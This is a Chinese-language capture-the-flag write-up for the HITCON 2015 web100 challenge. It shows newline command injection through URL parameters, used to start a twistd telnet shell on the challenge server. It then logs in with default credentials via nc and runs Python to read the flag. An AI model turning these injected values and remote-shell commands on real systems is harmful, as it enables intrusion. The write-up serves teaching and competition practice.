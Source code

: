 # HITcon2015CTF web100
### 题目

    baby, do it first.
    http://52.68.245.164

[源码地址](https://gitcafe.com/JJjie/JJjie/tree/gitcafe-pages/ctfcode/hitcon2015/web100)

### 解析
1. `"%0A"`在urlencode下是表示换行

  `http://52.68.245.164/?args[]=a%0A&args[]=touch&args[]=cat`
表示


    /bin/orange a
    touch cat

  我们可以在沙箱类建立一个cat文件

2. `wget`支持长整形的形式，如`http://92775836/`

  wget可以将php文件作为文本下载，通过本地的服务器解释

  wget一个ip只会得到index.html,不能将其直接变为php（有点的限制)

  wget详细参数(点这里)[http://man.linuxde.net/wget]

3. [twistd](https://twistedmatrix.com/trac/)是用Python编写的，并在开源MIT许可协议发布一个事件驱动的网络引擎。

4. talnet，用于Internet的远程登录.它可以使用户坐在已上网的电脑键盘前通过网络进入的另一台电脑已上网的电脑,使它们互相连通.这种连通可以发生在同一房间里面的电脑或是在世界各范围内已上网的电脑.

### 最后破解如下
1. 命令行输入

        while true;
        do wget -qO- "http://52.68.245.164/?args[]=abc%0a&args[]=twistd&args[]=telnet" > /dev/null;
        // -qO- 获取不保存成index.html
        done;

  实际上是请求建立一个如下命令

        /bin/orange abc
        twistd telnet

2.  然后使用nc,`nc 52.68.245.164 4040`

  4040端口是twistd的talnet服务端口

  默认`user/pass: admin/changeme`

  键入

        python -c "import sys;sys.stdout.write(\"admin\r\nchangeme\r\nimport os;print '%r'%os.popen('/read_flag').read();\r\n\")"|nc 52.68.245.164 4040

  flag在`/read_flag`下

  ![](../images/ctf/hitcon2015web100.png)
